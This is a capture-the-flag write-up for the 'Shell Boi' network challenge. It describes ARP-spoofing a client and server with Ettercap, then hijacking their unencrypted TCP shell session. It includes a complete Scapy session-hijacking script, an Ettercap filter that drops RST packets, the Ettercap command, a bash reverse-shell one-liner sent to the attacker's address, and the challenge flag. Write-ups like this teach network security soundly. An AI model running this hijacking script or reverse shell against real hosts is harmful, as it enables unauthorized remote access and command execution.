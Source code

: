 ```yaml
---
description: >-
  Unencrypted remote shell leads to TCP session hijacking and RCE through
  man-in-the-middle (MITM) attack
---
```


# Shell Boi

## Challenge

He sells linux shells on the shell store.

**Author:** [f4lcon](https://twitter.com/theevilsyn)

## Solution

### Reconnaissance

When scanning the network, I found that only 172.30.0.5 and 172.30.0.8 were up. However, no ports seemed to be open.

Port 1337 on 172.30.0.5 was "open", but the service closes the connection immediately after the handshake is completed.

```text
Nmap scan report for 172.30.0.5
Host is up (0.042s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE    VERSION
1337/tcp open  tcpwrapped
MAC Address: 02:42:1D:65:54:70 (Unknown)
```

172.30.0.8, on the other hand, had no open ports.

This is weird, the category was "Network Pentest"! Anyway, I theorized that perhaps 1337 was indeed open, but the firewall blocks anyone other than 172.30.0.8 from accessing the service? 

### Man-in-the-Middle

Well, what better way to test this theory than to sniff the traffic? I tried using Ettercap to perform a man-in-the-middle between 172.30.0.5 and 172.30.0.8, and it worked! There were no defences in place, and I could now sniff the traffic between them.

Filtering the traffic on port 1337, we can see quite a lot of connections. Let's start with following one of those connections:

![](../../.gitbook/assets/image%20%2862%29.png)

172.30.0.8 is sending the following base 64 encoded message to 172.30.0.5, on port 1337:

![](../../.gitbook/assets/image%20%2851%29.png)

The two lines translate to 172.30.0.8 and 34599 respectively.

Hm... filtering the traffic on port 34599, some interesting traffic appears:

![](../../.gitbook/assets/image%20%2844%29.png)

Okay, now we understand what is happening.

* 172.30.0.8, the client, sends a request to the server in the form of a base 64 encoded message specifying the receiving IP address and port number.
* 172.30.0.5, the server, upon receiving the request, sends an unencrypted shell to the specified IP address and port number.

### Hijacking the Session

Essentially, we need to intercept the TCP connection, and spoof a response containing our custom command to the server. This is called **TCP session hijacking**, which builds on top of a MITM attack. The idea is that we have to calculate the correct SEQ and ACK numbers, in order to spoof a packet as the client.

In a TCP connection, if invalid SEQ numbers are received, the receiver simply discards the packets. Initial sequence numbers \(ISNs\) are thus randomised, preventing SEQ numbers from being predicted. Arbitrarily injected packets by an attacker "guessing" the SEQ number would therefore be likely to have invalid SEQ numbers. ****

However, if an attacker is able to achieve a man-in-the-middle attack, it would be trivial to obtain the relevant SEQ numbers of TCP packets transmitted between two nodes.

![](https://lh5.googleusercontent.com/22lSaL0ogOMcs18PYt33A84ORcf7JXfuyD_ZYwTBAw5y5u_vyCwNDpZQfxKgP63YvD9-X2_bZSC_1EQxnu1AP0IhYPXIsD-d_YY5go8SPTZDiZGGo4R53qMm6KMmHjZVwn1H68Nr)

The following script implements this \(this script is run _after_ first establishing a MITM using Ettercap - we could also use Scapy to implement the MITM, but it gets really messy and Scapy faces its own limitations too\). 

```python
from scapy.all import *
import argparse
import global_vars


def sniff_parser(packet):
    if IP in packet:
        print(packet.summary())


def sniffer_thread(callback, pkt_filter, iface):
    while True:
        sniff(
            prn=callback,
            filter=pkt_filter,
            count=1,
            iface=iface
        )


def forge_response(p, command):

	print(f"Received: SEQ {p[TCP].seq}, ACK {p[TCP].ack}, Payload {p[TCP].payload}")

	ip_total_len = p[IP].len
	ip_header_len = p[IP].ihl * 32 // 8
	tcp_header_len = p[TCP].dataofs * 32 // 8
	tcp_seg_len = ip_total_len - ip_header_len - tcp_header_len

	# Send command to server
	cmd_ether = Ether(src=p[Ether].dst, dst=p[Ether].src)
	cmd_ip = IP(src=p[IP].dst, dst=p[IP].src)
	cmd_tcp = TCP(sport=p[TCP].dport, dport=p[TCP].sport, seq=p[TCP].ack, ack=p[TCP].seq + tcp_seg_len, flags="PA")

	command = command + '\r\n'
	cmd = cmd_ether / cmd_ip / cmd_tcp / command

	return cmd
	

def hijack(p):

	data = str(p[TCP].payload)
	print("Received:", data)
	
	if 'root' not in data:
		return
		
	cmd = forge_response(p, global_vars.CMD)
		
	print('Spoofed command: ', cmd[TCP].payload)

	print("[+] Executing command...")
	sendp(cmd, verbose=0, iface=global_vars.IFACE)

	# sys.exit(0)


def main():
    
    parser = argparse.ArgumentParser()

    parser.add_argument(
        '-i', '--interface', default=conf.iface, help='Interface to use.'
    )

    parser.add_argument(
        'client', help='Client IP address.'
    )
    parser.add_argument(
        'server', help='Server IP address.'
    )

    parser.add_argument(
        'cmd', help='A command to execute.'
    )

    args = parser.parse_args()

    global_vars.MY_MAC = get_if_hwaddr(args.interface)
    global_vars.MY_IP = get_if_addr(args.interface)
    global_vars.IFACE = args.interface
    global_vars.CMD = args.cmd
    
    pkt_filter = f"src host {args.server} and tcp"
    
    sniffer = Thread(target=sniffer_thread, args=(hijack, pkt_filter, global_vars.IFACE))
    sniffer.start()


if __name__ == '__main__':
    main()

```

One small problem, though. When the client \(172.30.0.8\) sends an RST, the connection is closed before we get a chance to send our spoofed command! To get around this, I used the following Ettercap filter to drop the RST and RST, ACK packets.

```c
if (ip.src == '172.30.0.8') {
	if (tcp.flags == 4 || tcp.flags == 20) {
		drop();
		msg("Filter Ran.\n");
	}
}	
```

The syntax for running Ettercap with the filter is:

`ettercap -T -q -i tap0 -F shellboi.ef -M ARP /172.30.0.5\;172.30.0.8///`

Now, we can run the Python script and specify our desired command. Our command is `bash -c "bash -i >& /dev/tcp/172.30.0.14/1337 0>&1"`, which sends a reverse shell from the server to us.

![](../../.gitbook/assets/upload_c478bfc59bf91c2651693ff0c0c0745e.png)

The next time that a shell is sent to the client, our script will intercept the traffic and send the reverse shell payload to the server, allowing us to catch a shell, and obtain the flag.

![](../../.gitbook/assets/image%20%2858%29.png)

The flag is `inctf{Ha!Security_1s_4_my7h!!!}`.

_And that, everyone, is why we use SSH instead of Telnet._

### On Hindsight...

There was an easier way to solve this. After performing the ARP spoofing attack using Ettercap, we could have just forged the base 64 encoded request, specifying the IP address and port of our choice to receive the shell \(no scripting required?\). 

But hey, this was more fun, and probably more realistic!


